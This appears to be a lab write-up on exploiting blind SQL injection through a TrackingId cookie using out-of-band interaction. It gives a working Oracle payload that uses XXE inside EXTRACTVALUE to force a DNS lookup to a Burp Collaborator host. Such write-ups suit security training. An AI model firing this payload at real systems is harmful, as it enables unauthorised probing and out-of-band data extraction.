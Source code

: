 # Blind SQL injection with out-of-band interaction

## Description

`TrackingId` cookie which is used in a query but it's excuted async and has no effect on response however we still able to exploit `out of band SQLI`.

## Objectivie

cause a DNS lookup to Burp Collaborator.

## Steps

1. the only way to test these vulnerability is by trying OAST queries for different types of DB if it valid the request happend on the collaporator.
2. so while trying payloads only one worked normally.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'pohdmwdhw3pvfbcxl7qkvoe85zbqzunj.oastify.com/"> %remote;]>'),'/l') FROM dual--`
3. that's the payload from `ORACLE` to uses `XXE` to make dns lookup
4. And here we are
   ![DNS lookup](../images/OAST-1.png)
